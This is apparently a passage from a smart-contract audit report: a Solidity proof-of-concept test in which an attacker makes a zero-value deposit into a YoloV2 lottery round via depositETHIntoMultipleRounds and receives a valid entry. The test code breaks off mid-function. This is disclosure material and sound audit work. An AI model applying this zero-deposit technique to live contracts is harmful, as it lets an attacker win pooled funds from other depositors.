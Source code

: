We can test it with the test file below
```javascript
contract ZeroDepositWin is TestHelpers {
    address public alice = address(16);
    address public attacker = address(17);
    address public bob = address(18);

    function setUp() public {
        _forkMainnet();
        _deployYolo();
        _subscribeYoloToVRF();
    }

    function attacker_amt() private pure returns (uint256[] memory amounts) {
        amounts = new uint256[](2);
        amounts[0] = 0 ether;
        amounts[1] = 0.5 ether;
    }

    function test_depositWithZeroAmountUsingBatchDeposit(uint256 randomWord) public {
        vm.deal(alice, 2 ether);
        vm.deal(attacker, 2 ether);
        vm.deal(bob, 2 ether);

        vm.startPrank(alice);
        yolo.deposit{value: 0.5 ether}(1, _emptyDepositsCalldata());

        IYoloV2.Deposit[] memory deposits = _getDeposits(1);
        assertEq(deposits.length, 1);

        IYoloV2.Deposit memory deposit = deposits[0];
        assertEq(uint8(deposit.tokenType), uint8(IYoloV2.YoloV2__TokenType.ETH));
        assertEq(deposit.tokenAmount, 0.5 ether);
        assertEq(deposit.depositor, alice);
        assertEq(deposit.currentEntryIndex, 1);

        vm.stopPrank();

        vm.startPrank(attacker);
        yolo.depositETHIntoMultipleRounds{value: 0.5 ether}(attacker_amt());

        deposits = _getDeposits(1);
        assertEq(deposits.length, 2);

        deposit = deposits[1];
        assertEq(uint8(deposit.tokenType), uint8(IYoloV2.YoloV2__TokenType.ETH));
        assertEq(deposit.tokenAmount, 0 ether);
        assertEq(deposit.depositor, attacker);
        assertEq(deposit.currentEntryIndex, 1);

        vm.stopPrank();

        vm.startPrank(bob);
        yolo.deposit{value: 1 ether}(1, _emptyDepositsCalldata());

        deposits = _getDeposits(1);
        assertEq(deposits.length, 3);

        deposit = deposits[2];
        assertEq(uint8(deposit.tokenType), uint8(IYoloV2.YoloV2__TokenType.ETH));
        assertEq(deposit.tokenAmount, 1 ether);
        assertEq(deposit.depositor, bob);
        assertEq(deposit.currentEntryIndex, 3);

```
